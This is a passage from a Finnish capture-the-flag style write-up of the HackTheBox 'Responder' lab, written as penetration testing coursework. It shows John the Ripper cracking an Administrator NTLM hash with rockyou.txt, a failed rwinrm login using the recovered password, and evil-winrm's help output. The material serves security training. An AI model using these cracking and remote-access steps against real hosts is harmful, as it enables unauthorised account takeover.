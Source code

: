 Käytetään `rockyou.txt`:tä wordlistana.

```bash
$ john --wordlist=hashed/rockyou.txt ntlmhash.txt
...snip...
badminton        (Administrator)
...snip...
Session completed.
```

Vastauksena siis tehtävään, salasana on `badminton`.

> We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

Aikaisemmin nmapatty, silloin löydettiin jo portti. Vastaus 5985. Kokeillaan
aikaisemmin selvitettyä `winrm` komentoa.

```bash
$ winrm
Command 'winrm' not found, did you mean:
  command 'rwinrm' from deb ruby-winrm
Try: sudo apt install <deb name>

$ rwinrm help
help is an invalid host
Usage: rwinrm user@host
```


Kokeillaan, laitetaan user: Administrator ja host 10.129.186.74 ja salasana tietysti badminton

```bash
$ rwinrm Administrator@10.129.186.74
Password:
PS Administrator@10.129.186.74> dir
Authentication failed, bad user name or password
```

Jotain outoa tapahtuu `rwinrm` kanssa, yritin monta erilaista komentoa ja versiota, mutta
tästä on huono/olematon dokumentointi.

Netistä löytyy `evil-winrm` josta löytyykin runsaasti dokumentaatiota[^8]. Se on
myös asennettu Kaliin valmiiksi.

```bash
$ evil-winrm -h

Evil-WinRM shell v3.7

Usage: evil-winrm -i IP -u USER ...snip...
...snip...
    -i, --ip IP         Remote host IP or hostname. FQDN for Kerberos auth (required)
    -U, --url URL       Remote url endpoint (default /wsman)
    -u, --user USER     Username (required if not using kerberos)
    -p, --password PASS Password
    -H, --hash HASH     NTHash
    -P, --port PORT     Remote host port (default 5985)
...snip...
```


[^1]: HackTheBox, Connecting to Academy VPN, https://help.hackthebox.com/en/articles/9297532-connecting-to-academy-vpn
[^2]: Patrik Mihelson-Adamson, h1, https://github.com/p-lemonish/course-penetration-testing/blob/master/h1.md
[^3]: Learnlinux, Using smbclient, https://www.learnlinux.org.za/courses/build/net-admin/ch08s02.html
[^4]: Linux man page, smbclient(1), https://linux.die.net/man/1/smbclient
[^5]: cnotin, Nmap Github issue: Improve wsman/WinRM service fingerprinting #2119, https://github.com/nmap/nmap/issues/2119
[^6]: CNarendran Vaideeswaran, 2025, Crowdstrike, NTLM Explained, https://www.crowdstrike.com/en-us/cybersecurity-101/identity-protection/windows-ntlm/
[^7]: Kali, Tool documentation: responder usage example, https://www.kali.org/tools/responder/
[^8]: Hackplayers, evil-winrm, https://github.com/Hackplayers/evil-winrm